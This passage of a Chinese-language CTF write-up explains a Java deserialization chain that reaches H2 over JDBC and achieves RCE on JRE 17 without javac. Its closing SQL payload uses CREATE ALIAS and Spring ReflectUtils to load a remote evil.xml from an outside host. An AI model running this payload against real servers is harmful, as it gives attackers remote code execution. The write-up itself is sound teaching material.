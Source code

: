 ```java
    @Override
    public int getLoginTimeout() throws SQLException {
        return 0;
    }

    @Override
    public <T> T unwrap(Class<T> iface) throws SQLException {
        return null;
    }

    @Override
    public boolean isWrapperFor(Class<?> iface) throws SQLException {
        return false;
    }

    @Override
    public Logger getParentLogger() throws SQLFeatureNotSupportedException {
        return null;
    }
}
```

结合 H2 依赖, 很明显是通过反序列化打 JDBC

前半部分的思路很简单, 通过 EventListenerList (readObject -> toString) + POJONode (toString -> 任意 Getter 调用) 触发 MyDataSource 的 getConnection 方法

后半部分需要用 JDBC 打 H2 RCE, 常规思路是利用 CREATE ALIAS 创建 Java 函数或者是利用 JavaScript 引擎 RCE

但这里的坑点在于:

1. Java 17 版本中 JavaScript 引擎 (Nashorn) 已经被删除
2. 题目给的是 JRE 17 而不是 JDK 17, 不存在 javac 命令, 无法编译 Java 代码, 也就是说无法像常规思路那样通过 CREATE ALIAS 创建 Java 函数

翻阅 H2 数据库文档可知, CREATE ALIAS 除了创建 Java 函数外, 还能够直接引用已知的 Java 静态方法, 这个过程不需要 javac 命令

[https://h2database.com/html/features.html](https://h2database.com/html/features.html)

[https://h2database.com/html/datatypes.html](https://h2database.com/html/datatypes.html)

[https://h2database.com/html/grammar.html](https://h2database.com/html/grammar.html)

![image-20240304153655560](https://img.exp10it.io/2024/03/202403041536617.png)

那么就可以尝试结合第三方依赖使用一些特定的静态方法完成 RCE

理论上会有很多种利用思路, 我的思路是利用 Spring 的 ReflectUtils 反射调用 ClassPathXmlApplicationContext 的构造方法

```sql
CREATE ALIAS CLASS_FOR_NAME FOR 'java.lang.Class.forName(java.lang.String)';
CREATE ALIAS NEW_INSTANCE FOR 'org.springframework.cglib.core.ReflectUtils.newInstance(java.lang.Class, java.lang.Class[], java.lang.Object[])';

SET @url_str='http://host.docker.internal:8000/evil.xml';
SET @context_clazz=CLASS_FOR_NAME('org.springframework.context.support.ClassPathXmlApplicationContext');
SET @string_clazz=CLASS_FOR_NAME('java.lang.String');

CALL NEW_INSTANCE(@context_clazz, ARRAY[@string_clazz], ARRAY[@url_str]);
```
